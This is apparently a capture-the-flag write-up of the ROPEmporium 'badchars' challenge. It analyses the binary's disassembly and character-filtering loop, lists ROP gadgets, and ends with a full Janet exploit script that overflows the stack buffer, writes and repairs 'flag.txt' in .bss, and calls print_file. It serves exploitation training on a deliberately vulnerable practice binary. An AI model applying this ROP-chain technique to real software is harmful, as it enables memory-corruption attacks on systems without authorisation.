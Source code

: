 # badchars (ROPEmporium Challenge 5)

## Analysis

As with the previous challenges, our buffer is still sized 0x20 bytes, but
there are an additional 0x20 bytes of stack space for other locals:

```
 972:	48 8d 45 c0          	lea    -0x40(%rbp),%rax
 976:	48 83 c0 20          	add    $0x20,%rax
 # not sure why we load the address at -0x40 and then add 0x20; why not just load address at -0x20?
 97a:	ba 00 02 00 00       	mov    $0x200,%edx
 97f:	48 89 c6             	mov    %rax,%rsi
 982:	bf 00 00 00 00       	mov    $0x0,%edi
 987:	e8 34 fe ff ff       	call   7c0 <read@plt>
```

This time, we read up to `0x200` bytes.
The actual amount of bytes read is stored on the stack and later used to
iterate over the input char by char.

```
│           0x0000098c      488945c0       mov qword [var_40h], rax
│           0x00000990      48c745c80000.  mov qword [var_38h], 0
│       ┌─< 0x00000998      eb51           jmp 0x9eb
│      ┌──> 0x0000099a      48c745d00000.  mov qword [var_30h], 0
│     ┌───< 0x000009a2      eb31           jmp 0x9d5
│    ┌────> 0x000009a4      488b45c8       mov rax, qword [var_38h]
│    ╎│╎│   0x000009a8      0fb64c05e0     movzx ecx, byte [rbp + rax - 0x20]
│    ╎│╎│   0x000009ad      488b45d0       mov rax, qword [var_30h]
│    ╎│╎│   0x000009b1      488b15280620.  mov rdx, qword [reloc.badcharacters] ; [0x200fe0:8]=0
│    ╎│╎│   0x000009b8      0fb60402       movzx eax, byte [rdx + rax]
│    ╎│╎│   0x000009bc      38c1           cmp cl, al
│   ┌─────< 0x000009be      7509           jne 0x9c9
│   │╎│╎│   0x000009c0      488b45c8       mov rax, qword [var_38h]
│   │╎│╎│   0x000009c4      c64405e0eb     mov byte [rbp + rax - 0x20], 0xeb
│   └─────> 0x000009c9      488b45d0       mov rax, qword [var_30h]
│    ╎│╎│   0x000009cd      4883c001       add rax, 1
│    ╎│╎│   0x000009d1      488945d0       mov qword [var_30h], rax
│    ╎│╎│   ; CODE XREF from sym.pwnme @ 0x9a2(x)
│    ╎└───> 0x000009d5      488b45d0       mov rax, qword [var_30h]
│    ╎ ╎│   0x000009d9      4883f803       cmp rax, 3
│    └────< 0x000009dd      76c5           jbe 0x9a4
│      ╎│   0x000009df      488b45c8       mov rax, qword [var_38h]
│      ╎│   0x000009e3      4883c001       add rax, 1
│      ╎│   0x000009e7      488945c8       mov qword [var_38h], rax
│      ╎│   ; CODE XREF from sym.pwnme @ 0x998(x)
│      ╎└─> 0x000009eb      488b55c8       mov rdx, qword [var_38h]
│      ╎    0x000009ef      488b45c0       mov rax, qword [var_40h]
│      ╎    0x000009f3      4839c2         cmp rdx, rax
│      └──< 0x000009f6      72a2           jb 0x99a
```

The above assembly could be described as doing:

```
Input mangling:
For each character:
  For all of the four bad chars:
    When the current char is the bad char:
      Replace the character with 0xEB (not a valid ASCII character)
      9c0:	48 8b 45 c8          	mov    -0x38(%rbp),%rax
      9c4:	c6 44 05 e0 eb       	movb   $0xeb,-0x20(%rbp,%rax,1)
```

As in the previous challenge, we still store our "flag.txt" string in the
`.bss` section.

```sh
objdump -h badchars
# 23 .bss          00000008  0000000000601038  0000000000601038  00001038  2**0
#                  ALLOC
```

To do so, we string together two little gadgets.
The first loads the string and the address to store it under into registers:

```
  40069c:	41 5c                	pop    %r12   # "flag.txt"
  40069e:	41 5d                	pop    %r13   # address to stare string into 0x0000000000601038
  4006a0:	41 5e                	pop    %r14
  4006a2:	41 5f                	pop    %r15
  4006a4:	c3                   	ret
```

The second actually moves the string into the location pointed to by our
address.

```
  400634:	4d 89 65 00          	mov    %r12,0x0(%r13)
  400638:	c3                   	ret
```

Because of the string mangling happening in the `pwnme` function, we need to
find a way to fix the mangled string, before we can call `print_file@plt`.

Luckily, there are a bunch of useful gadgets helpfully provided to us.

```
0000000000400628 <usefulGadgets>:
  400628:	45 30 37             	xor    %r14b,(%r15)
  40062b:	c3                   	ret
  40062c:	45 00 37             	add    %r14b,(%r15)
  40062f:	c3                   	ret
  400630:	45 28 37             	sub    %r14b,(%r15)
  400633:	c3                   	ret
  400634:	4d 89 65 00          	mov    %r12,0x0(%r13)
  400638:	c3                   	ret
```

We could make use of either `xor` or `sub`, I spontaneously decided to go with
`sub`.

```
  400630:	45 28 37             	sub    %r14b,(%r15)
  400633:	c3                   	ret
```

Since the "bad" characters are all replaced with `0xEB` we need to subtract
the right amount from `0xEB` to end up with our required character.

```janet
# find the amount to subtract
# char = 0xEB - some_amount:
(- 0xEB (first (string/bytes char)))
```

As recommended by ROPEmporium, I wrote a little helper function to fix up the
bad chars.

```janet
(defn fixup-char
  [char address]
  (string/join ["\xA0\x06\x40\x00\x00\x00\x00\x00"                       # pop r14; pop r15 gadget
                (string/from-bytes (- 0xEB (first (string/bytes char)))) # r14b: amount to subtract
                "\x00\x00\x00\x00\x00\x00\x00"                           # r14: pad the rest of r14 with 0s
                address                                                  # r15: address of char
                "\x30\x06\x40\x00\x00\x00\x00\x00"                       # ret to sub fixup gadget
                ""]))
```

Once the string is fixed, we need to load its address into $rdi and then return
to `print_file@plt`.
To do so, we jump into the middle of the `pop $r15` instruction, which
effectively turns it into a `pop $rdi`.

```
 4006a2:	41 5f                	pop    %r15
 4006a4:	c3                   	ret
```

`5f` at `4006a3` makes it a `pop %rdi`.

The final exploit script looks like this:

```janet
(use sh)

#(print "\\x" (string/join (reverse (partition 2 "00000000004006A0")) "\\x"))
#(map (partial printf "%x") (string/bytes "flag.txt"))
#(print "\\x" (string/join ["66" "6c" "61" "67" "2e" "74" "78" "74"] "\\x"))
# \x66\x6c\x61\x67\x2e\x74\x78\x74

(defn fixup-char
  [char address]
  (string/join ["\xA0\x06\x40\x00\x00\x00\x00\x00" # pop r14; pop r15 gadget
                (string/from-bytes (- 0xEB (first (string/bytes char)))) "\x00\x00\x00\x00\x00\x00\x00" # r14: value to subtract
                address # r15: address of char
                "\x30\x06\x40\x00\x00\x00\x00\x00" # ret to sub fixup gadget
                ""]))

(def input (string/join [(string/repeat 'A 40) # overflow buffer
                         "\x9c\x06\x40\x00\x00\x00\x00\x00" # pop-slide gadget
                         "\x66\x6c\x61\x67\x2e\x74\x78\x74" # r12: "flag.txt" string
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # r13: address at which to store string 
                         "\x00\x00\x00\x00\x00\x00\x00\x00" # r14:
                         "\x00\x00\x00\x00\x00\x00\x00\x00" # r15:
                         "\x34\x06\x40\x00\x00\x00\x00\x00" # mov %r12,0x0(%r13) gadget
                         (fixup-char "a" "\x3A\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "g" "\x3B\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "." "\x3C\x10\x60\x00\x00\x00\x00\x00")
                         (fixup-char "x" "\x3E\x10\x60\x00\x00\x00\x00\x00")
                         "\xa3\x06\x40\x00\x00\x00\x00\x00" # pop %rdi gadget
                         "\x38\x10\x60\x00\x00\x00\x00\x00" # address of string
                         "\x10\x05\x40\x00\x00\x00\x00\x00" # print_file@plt
                         ""]))
(spit "payload.txt" input)
($ ./badchars < ,input)
```

